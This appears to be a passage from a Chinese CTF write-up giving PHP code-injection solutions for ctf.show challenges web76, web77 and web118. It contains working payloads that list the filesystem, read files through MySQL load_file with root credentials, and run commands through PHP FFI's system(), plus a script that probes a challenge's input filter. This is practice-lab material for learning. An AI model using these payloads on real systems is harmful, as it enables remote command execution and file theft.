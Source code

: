 ```php
    exit(0);
}
exit(0);

```

## web76

```php
c=?><?php $a=new DirectoryIterator("glob:///*"); foreach($a as $f) {echo($f->__toString().' ');} exit(0);
发现flag36d.txt
try {
	$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');
	foreach($dbh->query('select load_file("/flag36d.txt")') as $row)
	{
		echo($row[0])."|"; 
	}
	$dbh = null;
}catch (PDOException $e) {
	echo $e->getMessage();
    exit(0);
}
exit(0);
```

## web77

```php
c=?><?php $a=new DirectoryIterator("glob:///*"); foreach($a as $f) {echo($f->__toString().' ');} exit(0);
发现flag36x.txt
然后看hint，这题要用php7.4版本以上才有的FFI
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt'; //没有回显的
$ffi->system($a); //通过$ffi去调用system函数
再通过readgzfile('1.txt');exit(0);读取flag
```

## web118

先用脚本来查看白名单

```py
import requests
import string
url = "https://befab4fa-c3ab-45ca-a166-461ccfc289d3.challenge.ctf.show/"
list = string.ascii_letters + string.digits + "$+-}{_><:?*.~/\\ "
white_list = ""
for payload in list:
    data = {
        "code" : payload
    }
    res = requests.post(url,data=data)
    if "evil input" not in res.text:
        print(payload)
        white_list += payload
print(white_list.replace(" ","空格"))


# ABCDEFGHIJKLMNOPQRSTUVWXYZ$}{_:?.~空格
```
